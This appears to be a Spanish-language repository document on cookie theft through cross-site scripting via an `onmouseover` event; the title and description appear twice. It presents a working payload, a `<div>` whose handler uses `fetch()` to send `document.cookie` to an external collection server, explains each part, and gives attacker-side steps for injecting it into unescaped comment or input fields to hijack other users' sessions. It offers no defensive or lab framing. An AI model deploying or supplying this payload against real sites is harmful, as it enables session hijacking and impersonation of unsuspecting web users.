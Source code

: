 ### Documentación para inyección de código JavaScript usando `onmouseover`

#### Descripción:

Este documento describe cómo realizar una inyección de código JavaScript mediante el evento `onmouseover` en una página web vulnerable. El objetivo es interceptar y enviar cookies del usuario a un servidor externo cuando el usuario pase el ratón sobre un elemento HTML.

#### Objetivo:

El objetivo de esta técnica es aprovechar una vulnerabilidad de **Cross-Site Scripting (XSS)** para robar cookies o información sensible del usuario. Esta información puede ser enviada a un servidor controlado por el atacante para su posterior uso, como la suplantación de identidad o el secuestro de sesiones.

#### Código para la inyección:

```javascript
<div onmouseover="fetch('https://datagrabber.onrender.com/grab?data=' + encodeURIComponent(document.cookie))">
    Pasa el ratón por aquí
</div>

```
### Documentación para inyección de código JavaScript usando `onmouseover`

#### Descripción:

Este documento describe cómo realizar una inyección de código JavaScript mediante el evento `onmouseover` en una página web vulnerable. El objetivo es interceptar y enviar cookies del usuario a un servidor externo cuando el usuario pase el ratón sobre un elemento HTML.

#### Objetivo:

El objetivo de esta técnica es aprovechar una vulnerabilidad de **Cross-Site Scripting (XSS)** para robar cookies o información sensible del usuario. Esta información puede ser enviada a un servidor controlado por el atacante para su posterior uso, como la suplantación de identidad o el secuestro de sesiones.

#### Código para la inyección:

```bash
`<div onmouseover="fetch('https://datagrabber.onrender.com/grab?data=' + encodeURIComponent(document.cookie))">     Pasa el ratón por aquí </div>`
```

#### Desglose del código:

1. **Elemento interactivo (`<div>`)**: El código inyecta un `<div>` en la página web que ejecutará JavaScript cuando el usuario pase el ratón por encima.
    
2. **Evento `onmouseover`**: El atributo `onmouseover` se activa cuando el usuario pasa el ratón sobre el área del elemento `<div>`. Este evento puede ejecutarse en diferentes elementos como `<img>`, `<a>`, `<button>`, entre otros.
    
3. **`fetch()`**: Se realiza una solicitud HTTP utilizando la función `fetch()`. Esta función envía una petición GET al servidor externo con las cookies del documento (obtenidas a través de `document.cookie`).
    
4. **`encodeURIComponent(document.cookie)`**: La función `encodeURIComponent()` se usa para codificar las cookies del usuario de manera segura para ser enviadas a través de la URL. Esto evita problemas con caracteres especiales en las cookies que podrían romper la URL.
    
5. **URL maliciosa**: En este caso, la información sensible (las cookies) se envía a `https://datagrabber.onrender.com/grab`, un servidor controlado por el atacante. El servidor podría registrar las cookies y utilizarlas para llevar a cabo ataques adicionales, como el secuestro de sesiones.
    

#### Ejecución:

1. El atacante encuentra una página web vulnerable que no valida o escapa adecuadamente el código introducido por el usuario (por ejemplo, comentarios o campos de texto).
    
2. El atacante inyecta el código anterior en un campo de entrada de usuario que se renderiza directamente como HTML en la página web.
    
3. Cuando un usuario pasa el ratón sobre el elemento inyectado (en este caso, el `<div>`), el navegador ejecuta el código `onmouseover`, lo que envía una solicitud HTTP con las cookies del usuario al servidor externo.
    

#### Ejemplo de escenario:

Un atacante puede aprovecharse de un foro o sección de comentarios donde los datos introducidos por los usuarios no se validan adecuadamente. Si el atacante inyecta el código descrito en el campo de comentarios, cualquier otro usuario que pase el ratón por encima del comentario verá que sus cookies se envían al servidor del atacante.

